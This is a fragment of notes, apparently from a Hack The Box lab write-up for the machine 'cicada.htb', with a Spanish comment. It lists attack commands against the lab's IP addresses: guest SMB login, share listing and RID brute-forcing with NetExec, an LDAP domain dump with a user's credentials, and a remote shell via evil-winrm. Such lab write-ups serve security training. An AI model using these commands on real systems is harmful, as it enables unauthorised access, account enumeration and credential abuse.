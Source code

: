 nxc smb 10.10.11.35 -u 'guest' -p ''
nxc smb 10.10.11.35 -u 'guest' -p '' --shares
nxc smb 10.10.11.35 -u 'guest' -p '' --rid-brute (todos los usuarios)

```bash
ldapdomaindump ldap://10.129.118.121 -u 'cicada.htb\michael.wrightson' -p '$PASS'`
```

`   evil-winrm -i 'cicada.htb' -u 'emily.oscars' -p '[REDACTED]'   `

